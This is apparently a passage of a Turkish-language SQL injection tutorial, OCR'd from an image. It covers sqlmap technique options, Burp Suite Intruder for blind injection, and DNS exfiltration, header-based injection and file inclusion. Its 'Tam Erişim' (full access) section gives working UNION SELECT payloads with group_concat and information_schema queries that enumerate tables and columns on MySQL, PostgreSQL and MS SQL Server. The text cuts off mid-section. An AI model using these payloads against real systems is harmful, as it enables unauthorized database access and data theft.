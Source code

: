 ```sql
--technique: Kullanılacak enjeksiyon türünü belirtir (B = Blind, E = Error, U = Union, S = Stacked, T = Time-based)
```
Burp Suite Intruder:
Burp Suite, özellikle kör SQL enjeksiyon testleri için kullanışlıdır. Yanıt zamanlamaları veya sayfa içerikleri arasındaki farklar ile veritabanı adı gibi bilgileri sızdırmak mümkündür.
Burp Suite'de Intruder sekmesini kullanarak testleri otomatikleştirebilir, tokenlar ve payloadlar ile girişleri denemeler yapabilirsin.

7. Gelişmiş Teknikler
DNS Exfiltration: Veritabanı adı DNS istekleri üzerinden sızdırılabilir. Yani, SQL enjeksiyonu ile bir veritabanı adı, zararlı bir DNS isteği aracılığıyla dışarıya gönderilebilir.
HTTP Headers: HTTP başlıkları üzerinden SQL enjeksiyonu yapılabilir. X-Forwarded-For, User-Agent gibi başlıklar SQL Injection için kullanılabilir.
File Inclusion: Eğer dosya dahil etme (LFI/RFI) açığı varsa, veritabanı adı, include edilen dosyalarda konfigürasyon bilgileri şeklinde yer alabilir.

Sonuç:
SQL enjeksiyonu ile veritabanı adı elde etmek, doğru teknikler ve araçlarla yapılabilen bir işlemdir. İleri düzey teknikler, kör enjeksiyon (blind SQLi), hata tabanlı enjeksiyon (error-based SQLi), zaman tabanlı enjeksiyon (time-based SQLi), ve veritabanı metadata sorgulamaları ile veritabanı hakkında derinlemesine bilgi elde edebilirsin. Ayrıca bu süreci otomatikleştirmek için SQLmap ve Burp Suite gibi araçlar oldukça kullanışlıdır.

Tam Erişim
1. Veritabanındaki Tabloları Listeleme
İlk olarak, belirli bir veritabanındaki tüm tabloları öğrenmek için aşağıdaki SQL sorgularını kullanabilirsin.
MySQL / MariaDB:
Veritabanındaki tüm tabloları listelemek için:
sql
```sql
UNION SELECT null, null, null, group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'your_database_name';
```
'your_database_name' kısmını keşfettiğin veritabanı adıyla değiştirmelisin.
PostgreSQL:
PostgreSQL’de tablo isimlerini listelemek için:
sql
```sql
SELECT table_name FROM information_schema.tables WHERE table_schema = 'public';
```
MS SQL Server:
MS SQL Server’da tüm tabloları listelemek için:
sql
```sql
SELECT name FROM sys.tables WHERE type = 'U';
```
2. Tablo Yapılarını (Sütunlar) Öğrenme
Veritabanındaki tüm tabloları öğrendikten sonra, her tablonun sütunlarını görmek için aşağıdaki SQL sorgularını kullanabilirsin.
MySQL / MariaDB:
sql
```sql
UNION SELECT null, null, null, group_concat(column_name) FROM information_schema.columns WHERE table_name = 'your_table_name' AND table_schema = 'your_database_name';
```
PostgreSQL:
PostgreSQL’de tablonun sütunlarını almak için:
sql
```sql
SELECT column_name FROM information_schema.columns WHERE table_name = 'your_table_name';
```
MS SQL Server:
MS SQL Server’da tablonun sütunlarını görmek için:
sql